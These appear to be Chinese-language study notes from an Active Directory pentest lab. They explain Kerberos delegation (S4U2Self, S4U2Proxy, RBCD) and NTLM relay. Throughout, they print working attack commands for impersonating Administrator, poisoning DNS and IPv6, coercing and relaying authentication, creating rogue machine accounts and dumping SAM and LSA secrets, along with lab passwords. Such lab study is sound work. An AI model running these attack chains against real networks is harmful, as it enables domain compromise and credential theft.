

**`Active Directory Domain Services`，缩写 `AD DS`**是LDAP的后端，跑查询代码的，去NTDS.dit数据库里拿数据，LDAP只是个查询协议，前端是查询语句，也可以说是个接口，访问这个接口输入查询语句就能查询或修改这个AD内容了

## 这个就跟sql一个架构

### 前端就是让我们输入查询语句的，后端就是处理我们的查询语句并返回或修改数据

### 这是后端



#### 我们直接构造查询请求去连运行在389（不加密） 或者 638（加密）端口后的ADDS服务就好了

###### S4U2Self 要点总结

**设计目的**：解决"协议转换"（Protocol Transition）问题——让服务能为非 Kerberos 方式登录的用户（表单登录、证书等）申请一张该用户的 Kerberos 票据，而不依赖委派机制。

**核心机制**：

- 任何有 SPN 的服务账户，都能**默认、无条件地**对自己发起 S4U2Self 请求
- KDC 处理时**不校验**该账户是否配置了 `msDS-AllowedToDelegateTo` 或 RBCD
- 即使账户**从未配置过任何委派**，请求也能成功，KDC 照样签发票据

**结论**：S4U2Self 本身**不依赖委派配置**——这是它与 S4U2Proxy 最本质的区别。

**唯一的限制**：拿到的票据默认是 **non-forwardable（不可转发）**，要让它可转发（从而能喂给 S4U2Proxy 继续访问第三方资源），账户需要满足以下任一条件：

- 配置了**传统无约束委派**（Unconstrained Delegation）
- 配置了约束委派专属的 **`TRUSTED_TO_AUTH_FOR_DELEGATION`** 标志（协议转换标志）

一句话：**"能不能发起"和委派无关；"票据能不能转发给别人用"才和委派有关。**#### S4U2Proxy —— 这个才是真正为委派设计的

S4U2Proxy 就是纯粹为约束委派（Constrained Delegation）存在的：

- 必须依赖 `msDS-AllowedToDelegateTo`（传统约束委派）或 `msDS-AllowedToActOnBehalfOfOtherIdentity`（RBCD，基于资源的约束委派）这类 ACL/属性配置
- **没有这些配置，S4U2Proxy 请求会被 KDC 直接拒绝**，拿不到对第三方服务的票据

###### 三种委派对比

|           | 机制                                                                             | 授权配置位置                                                 | 谁来决定能访问谁                |
| --------- | ------------------------------------------------------------------------------ | ------------------------------------------------------ | ----------------------- |
| **非约束委派** | 用户申请 Service A 的 ST 时，KDC 把用户 TGT 副本夹带在 ST 里给 Service A 缓存，之后可任意冒充用户申请任何服务的 ST | 无限制                                                    | Service A 自己，权限不受限      |
| **约束委派**  | S4U2Self（拿到用户访问 Service A 的票）+ S4U2Proxy（换成访问 Service B 的票）                    | Service A 的 `msDS-AllowedToDelegateTo`                 | 服务提供方（Service A 所在域管理员） |
| **RBCD**  | 同约束委派，S4U2Self + S4U2Proxy                                                     | Service B 的 `msDS-AllowedToActOnBehalfOfOtherIdentity` | **资源方**（Service B）      |

> 约束委派和非约束委派（缓存 TGT）最本质的区别之一：是否缓存用户TGT





利用服务委派，申请管理员的ST

```bash
 getST.py -spn CIFS/winterfell.north.sevenkingdoms.local -impersonate 'Administrator' 'north.sevenkingdoms.local/jon.snow:iknownothing'
```

## 然后走kerberos认证成功，



# S4U2Proxy生成的ST,其加密方式只认"账号的密钥",不认"SPN字符串"本身

#### 票据的`sname`字段(写着spn)本身就在加密保护范围之外,是可以被篡改/替换的

```
getST.py的 -altservice ALTSERVICE
                        New sname/SPN to set in the ticket
```

```
s4u2proxy：
第一关（KDC签票阶段）：
    严格检查 —— 你请求的sname，必须在msDS-AllowedToDelegateTo清单里，
    否则KDC拒绝签发，这是协议明文规定的local policy检查

第二关（目标服务验票阶段）：
    协议规范里，没有强制要求目标服务去核对"票里的sname是不是自己"，
    实践中大多数Windows服务的实现，也确实没有做这个核对，
    只验证加密部分（密钥对不对）
```

| 字段                                               | 配置位置               | 校验阶段                 | 校验内容                                      |
| ------------------------------------------------ | ------------------ | -------------------- | ----------------------------------------- |
| `TRUSTED_TO_AUTH_FOR_DELEGATION`                 | Service A 自己       | S4U2Self             | 决定 ST 是否 forwardable                      |
| `msDS-AllowedToDelegateTo`（传统约束委派）               | Service A 自己       | **S4U2Proxy**（核心校验点） | KDC 核对目标服务 SPN用户是否在这个列表里                  |
| `msDS-AllowedToActOnBehalfOfOtherIdentity`（RBCD） | **Service B（资源方）** | **S4U2Proxy**（核心校验点） | KDC 核对 Service A 的 SID 是否在资源方的这个属性的（ACL）里 |

传统约束：访问的服务类型必须和msDS-AllowedToDelegateTo里的服务属于同一个spn用户，因为约束委派的第二张ST票据是用这个资源的spn用户密钥来加密的，只需要服务端能解密就能访问

- 假设 `msDS-AllowedToDelegateTo` 里配置的是 `CIFS/dc01.domain.com`

- 攻击者在 S4U2Proxy 请求里，把目标 SPN **改成** `LDAP/dc01.domain.com`、`HTTP/dc01.domain.com`，甚至 `krbtgt/dc01.domain.com` 等等

- KDC 在做比对时，实际上只核实了"**主机名** dc01.domain.com 匹配"，**没有严格核实服务类型（CIFS vs LDAP vs HTTP）是否也一致**
  
  所以下面这命令拿到的是第一张ST票据

```bash
 getST.py -spn CIFS/winterfell.north.sevenkingdoms.local -impersonate 'Administrator' 'north.sevenkingdoms.local/jon.snow:iknownothing'
```

#### -altservice 改spn是用来伪装的，绕过EDR这些，改不改都能通过认证



委派来的票据（ CIFS/winterfell）访问LADP/winterfell



委派来的票据（ CIFS/winterfell）访问CIFS/winterfell



再次说明了只需要spn用户写在委派权限里就好了，不管申请到啥服务类型的票据，都能访问和这个服务类型属于同一个spn用户的服务。

`sudo` 是“临时提权”，但它提权后**执行命令时用的 `PATH` 和你当前 shell 的 `PATH` 是两套东西**。装在sudoer里

```bash
sudo visudo #改sudoer的坏境变量
```

##### responder投毒后会监听53端口和其他重要端口，53端口有宿主机的dns服务，需要暂时关闭

```bash
sudo systemctl mask systemd-resolved systemd-resolved-varlink.socket systemd-resolved-monitor.socket
```

执行完 `mask` 后，任何方式都无法启动它们，直到手动 `unmask`。

## 重启也不行

```bash
systemctl list-units --all | grep resolved
```

```bash
sudo systemctl stop 'systemd-resolved*'
```





# 抓到NTLM 认证的hash了，一定要sudo ufw disable进行端口放行，不然收不到目标发送来的数据

### robb.stark    :    sexywolfy

##### NTLM认证是最底层的单独认证模块，不管上层跑着什么协议（smb,ldap等），都是只做认证

##### NTLM的三步挑战-响应认证（`NEGOTIATE/CHALLENGE/AUTHENTICATE`）,**本身跟"这次认证是走SMB发起的,还是走HTTP发起的"完全无关**,它只是一段被嵌入到不同业务协议里的"认证字节流"。所以攻击者完全可以:**从一次SMB认证里截获这三步消息,然后把它塞进一次LDAP连接里重放**——这就是cross-protocol relay(跨协议中继)，本质上都源于**协议本身只管身份证明，不管到底是为了访问哪个具体服务"**。

```
Coercion
│
├─ 攻击面：RPC / Windows 服务
├─ 目的：诱导目标产生 outbound authentication
└─ 结果：获得目标的 NTLM authentication 流

Relay
│
├─ 攻击面：接受 NTLM 的目标服务
├─ 目的：转发 authentication exchange
└─ 结果：让目标服务在该认证上下文下完成认证
```

```
认证产生是因为需要网络访问（outbound authentication)
RPC
 ↓
网络访问
 ↓
需要认证
 ↓
NTLM authentication
```

### 用nxc的coerce_plus模块做强制目标服务发起outbound认证

```bash
 nxc smb 192.168.56.11 -u jon.snow -p iknownothing -M coerce_plus -o LISTENER=192.168.56.1
```

-o LISTENER=ip 是把认证的数据报发给的ip



#### ntlmrelayx.py收到认证了



允许任意已认证的用户创建机器用户前提：

- **`ms-DS-MachineAccountQuota`**：域属性，默认值是 **10**，规定每个普通用户最多能创建 10 个机器账户（可能被禁用）

- **`SeMachineAccountPrivilege`**：在默认域控策略中，这个权限被授予了 **`Authenticated Users`**（所有经过认证的域用户）

#### 服务的权限是基于运行这个服务的用户，这个用户有啥权限，服务就有啥权限，所以要修改服务的委派，需要对这个用户的属性修改，

RBCD 攻击的核心操作就是：

1. 创建你自己的机器账户（比如 `FAKE$`）。

2. 把 `FAKE$` 写入 `WINTERFELL$` 的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性。

3. 用 `FAKE$` 向 KDC 申请一张**代表 `Administrator` 访问 `CIFS/WINTERFELL`** 的票据。

查看用户是否能创建新机器用户,走ldap,smb看不了

```bash
nxc ldap 192.168.56.11 -u jon.snow -p iknownothing -M maq
```



### 创建机器用户

```bash
nxc smb 192.168.56.11 -u jon.snow -p iknownothing -M add-computer -o NAME=FAKE$ PASSWORD=Password123!
```



### 没有配置错误造成用户对WINTERFELL$的RBCD修改，下面就不进行了

#### 把不开smb签名的机子输入到一个清单里

```bash
 nxc smb 192.168.56.0/24 --gen-relay-list relay.txt
```

#### 然后开responder投毒+ntlmrelayx.py中继,-tf是目标list,-of输出受害者传过来认证的hash,-socks把成功的中继会话保存在socks这个服务下，我们去连这个socks端口就能用这个会话和中继目标通信了

#### socks代理协议只是封装个源地址和目的地址的报头，让数据报走到socks的端口，然后这个socks服务先解开自己封装的报头，再将我们的包送走

**复用已认证连接**：`ntlmrelayx` 的 SOCKS 代理特殊在——它不新建连接，而是**借用之前中继成功的那条已认证连接**

```bash
 sudo ntlmrelayx.py -tf relay.txt -of ntlm -smb2support -socks
```





#### **`nxc`**：强制要求域名是 **FQDN**（`north.sevenkingdoms.local`），否则报错。但 SOCKS 列表里是 `NORTH`，格式对不上，所以 `nxc` 走 SOCKS 失败。

# **nxc 不会复用 SOCKS5 里已认证的会话**

### **Impacket 的“直通逻辑”**：`secretsdump.py`、`smbclient.py` 这类 Impacket 原生工具**没有这个 FQDN 强制校验**。它们直接使用 SOCKS 代理提供的会话信息，所以能无缝复用

中继到essos这个域的.23这台机器，爆破sid

```bash
proxychains lookupsid.py -no-pass NORTH/EDDARD.STARK@192.168.56.23 5000
```



**多次 RPC 调用**来枚举每个用户。每次调用都经过 SOCKS 代理，而 SOCKS 里缓存的会话是**一次性的**，用完就断,枚举到第 5 个用户后，会话就没了。需要用secretsdump.py一次性

**任何需要“多次 RPC 调用”的工具，走 SOCKS 都撑不住。** `lookupsid.py`、`samrdump.py` 都是这样。只有**只做一次连接**的工具（比如 `secretsdump.py`）才能完整跑完



SLAAC gives the machine an IP address. It doesn't give DNS servers.

DHCPv6 is used to hand out DNS servers, domain names, and other network config.

windows电脑会周期性的发起ipv6配置查询（DHCPv6）向一个服务器，所以可以posinoning

###### 先用pretenter伪装成这个服务器，给他返回攻击者的dns服务器ip还有不返回wpad文件下载的url,当受害者没有受到wpad的下载url后，会用所在域的域名+wpad构造dns域名，(wpad.域名)发起dns查询，期待返回wpad.nit文件的下载ip,因为上一步我们给的网络配置信息（DHCPv6）中dns服务器ip已经换成攻击者的了（pretenter)，所以他会向攻击者发起dns查询（走的http请求）

**如果你的触发手段就是 pretenter的 WPAD 欺骗**  
那 `-wh` 是**必须加的**。整条链路是：pretenter 污染 DNS → 受害者去请求 WPAD 配置 → `ntlmrelayx` 靠 `-wh` 生成 PAC 文件、告诉受害者"用我当代理" → 受害者后续 HTTP 流量触发 Proxy-Authenticate NTLM 认证 → relay。少了 `-wh` 这一环，受害者请求 WPAD 时就是个死胡同，不会有后续认证。

**2. 如果你的认证触发手段不是靠 WPAD，而是别的（比如 PetitPotam/printerbug/WebDAV 强制认证、Responder 投毒、或者单纯的 SMB 认证中继）**  
那完全不需要 `-wh`。这些手段是让受害者**直接**对 `ntlmrelayx` 的 HTTP 或 SMB 监听端口发起认证请求（不经过 WPAD 这一步），`ntlmrelayx` 的 HTTP 服务器对任何到来的请求本来就会正常走 401 → NTLM 挑战这套流程，和是否服务 WPAD 文件没关系。这种场景下 `-wh` 纯属多余参数，加不加都行。

### 每台加入域的 Windows 机器在 AD 里都有一个计算机账户。它的名字总是以 `$` 结尾，比如 `MEEREEN$` 或 `BRAAVOS$`

当你写入它的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性时，你是在修改谁可以冒充用户来访问那台机器上运行的服务

### 开始ipv6投毒

```bash
 sudo mitm6 -i vboxnet0 -d essos.local -d sevenkingdoms.local -d north.sevenkingdoms.local --debug
```

-d 是只接受这些域来的dns查询，其他来的dns查询不回复，

成功了



受害者的dns服务器已经变成攻击者的主机了



中继

```bash
sudo ntlmrelayx.py -6 -wh pp.essos.local -t ldaps://meereen.essos.local --add-computer relayuser --delegate-access
```

--delegate-access是自动把这个新创建的用户sid写到这台计算机的机器用户（计算机名字$）的RBCD属性里

等待受害者发起http访问任意服务，wpad这是个代理协议，指定代理服务器的，先向代理服务器认证，再让流量去代理服务器，让代理服务器访问，（场景：比如要出内网的时候，统一走代理）



重启SVR03这台电脑就能看到代理流量了或者再等下去



### 可以自己指定创建的用户的密码，不用工具默认创建的密码

### 

### 计算机账户名就是计算机的主机名后面加一个 `$`

不知道为啥出现了两条relay会话，导致后面的--delegate-access将新用户的sid加入计算机账户的RBCD属性里，但是用户已经创建好了，我们直接手动加吧

# **不是“每一个已认证的用户”都能写。** 能写的前提是，这个被中继的账户**对目标计算机账户的RBCD属性拥有写权限**

**是 `BRAAVOS`（192.168.56.23）这台机器主动发起的认证，用的就是它的机器账户 `BRAAVOS$`**，计算机账户默认对自己有写权限

如果用户



#### 登录成功了


**S4U2Self：**

> “我这个服务能不能拿到一张‘某用户访问我这个服务’的票？”

**S4U2Proxy：**

> “既然某用户访问了我，那我能不能拿着这个委派关系，让这个用户访问另一个服务？”

RBCD主要解决第二个问题。

#### 传统约束委派是“前端服务能代表谁去访问后端”，所以需要检查前端服务账户的 `msDS-AllowedToDelegateTo` 和 `TrustedToAuthForDelegation` 属性。

#### 而 RBCD 的规则是“**后端资源允许谁来代表用户访问自己**你已经在 `BRAAVOS$`（目标计算机账户）的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性里写入了 `relayuser$` 的 SID。这个写入动作本身就完成了授权。

#### 所以不需要检查这个账户有没有 `S4U2Self` 或 `S4U2Self` 相关的权限标志

### 

##### 那就开始利用委派申请管理员的

```bash
getST.py -spn HOST/braavos.essos.local -impersonate 'Administrator' 'essos.local/relayuser$:+V2i^T4L!N_NAD+' -dc-ip 192.168.56.12
```


上面那个spn要写目标存在的不然会找不到服务

```
[-] Probably user relayuser$ does not have constrained delegation permisions or impersonated user does not exist
```


 dump sam in 192.168.56.23 成员服务器

```bash
nxc smb 192.168.56.23 -k --use-kcache --sam
```


##### 看出这个是braavos, 是本地账号，不是essos域账号，不能用这个administrator做bloodhound

`LSA`（Local Security Authority）是 Windows 本地负责"身份验证和凭据管理"的核心子系统，所有跟登录、认证相关的敏感信息（缓存的域登录信息、服务要用的密码、DPAPI 密钥等）都由它统一管理、加密存放在注册表的 `HKLM\SECURITY\Policy\Secrets` 下。它之所以存了这么多东西，是因为**很多场景下 Windows 必须在没有人工干预的情况下自动帮你登录/认证**，而这些凭据又不能明文裸放在硬盘上，所以才搞了 LSA 这套"用系统级密钥加密存储，本地 SYSTEM/管理员权限才能解密"的机制。本地管理员能解密读出来，正是因为 LSA secrets 本来设计上就是给本机 SYSTEM 进程读的，而管理员天然有权限提到 SYSTEM。

先dump一下lsa

```bash
nxc smb 192.168.56.23 -k --use-kcache --sam
```


**`dpapi_machinekey` / `dpapi_userkey`**——DPAPI（Windows 数据保护 API）的主密钥。很多应用（浏览器保存的密码、保存的 RDP 凭据、Wi-Fi 密码等）底层都用 DPAPI 加密存储，这俩密钥就是解开那些被保护数据的钥匙。

###### 用sql_svc这个账号跑bloodhound

#### 看sql_svc是不是domain admins组


### 不是，

### 中继+ADCS

```
高权限身份
     │
     │ 被 Relay 到 ADCS
     ▼
ADCS 错误地签发：
“高权限身份 + 攻击者 Public Key”
     │
     ▼
攻击者拿到 Certificate
     +
自己的 Private Key
     │
     ▼
使用证书进行 AD 身份认证
```

#### 查看ADCS服务，根域开启了ADCS服务


- **服务名（Service Name）**：是 Windows 用来管理这个进程的名字。ADCS 的服务名固定是 **`CertSvc`**。你用 `Get-Service CertSvc` 就能看到它是否在运行。

